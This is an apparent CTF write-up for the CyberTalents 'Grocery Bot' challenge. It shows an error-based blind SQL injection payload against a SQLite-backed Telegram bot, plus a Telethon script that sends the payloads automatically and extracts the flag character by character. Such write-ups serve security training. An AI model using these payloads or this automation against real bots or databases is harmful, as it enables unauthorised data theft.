 ```yaml
---
title: Grocery Bot Web CTF WriteUp @CyberTalents
author: MBZ0x7
date: 2021-09-06 15:10:00 +0800
categories: [CTF]
tags: [ctf,cybertalents]
pin: false
---
```

### Description
This challenge is hard and requires programming skills to solve it quickly.
```
Its Shopping day

Telegram alias: @ctgrocerybot
```
![](../../assets/img/posts/1/1.png)

### Enumeration
After trying different things. I concluded that it's vulnerable to blind SQLi.
Also, it's using Sqlite.
You can learn more about this type of sqli vulnerability from [here.](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
)

### Manual Exploitation
The payload that we'll be using is below.
```sql
/price flag' AND (SELECT CASE WHEN (SUBSTR(flag,1,1)='a') THEN 1/0 ELSE 'a' END FROM flags)='a"
```
Basically, we'll test lower case alphabets, numbers and underscore for each character flag !

Indeed, you should test uppercase and other non alphanumeric chars, but in our case I know flag possible chars.

In total, over than 3k lines to send to the bot, but you can reduce them by guessing some words in the flag and knowing how it starts,...

### Automatic Exploitation
The problem here that we can't use sqlmap because Telegram uses Websockets for communication.

So, the solution is to write a client to talk to Telegram API and send all payloads to the bot.

First, go to [my.telegram.org/auth](https://my.telegram.org/auth). Add and confirm your phone then go to API development tools and fill in the form with any data.
After that, you'll receive an API_ID and API_HASH that you'll use in the script below.

```python
from telethon.sync import TelegramClient
from string import ascii_lowercase, ascii_uppercase, digits
import time

bot = "@ctgrocerybot"

api_id = 
api_hash = ""

flag_chars = ascii_lowercase + digits + "_"

sleep = 0.5
success = "the item you requested is not found"


flag = "FLAG{"

with TelegramClient('session',api_id,api_hash) as client:
    for pos in range(6, 43):
        for char in flag_chars:
            payload = "/price flag' AND (SELECT CASE WHEN (SUBSTR(flag," + str(
                pos) + ",1)='" + char + "') THEN 1/0 ELSE 'a' END FROM flags)='a"
            print("--> Sending payload: " + payload)
            msg = client.send_message(bot, payload)
            payload_response = client.get_messages(bot)
            print(payload_response[0].message)
            if payload_response[0].message == success:
                flag += char
                print("\033[91m--> Flag: " + flag + "\033[00m")
                break
            print("--> Sleeping for 0.5 seconds")
            time.sleep(sleep)
    client.run_until_disconnected()
flag += "}"
print("\033[91m--> Flag: " + flag + "\033[00m")
```

Make sure to replace `bot`,`api_id` and `api_hash` variables with the corresponding values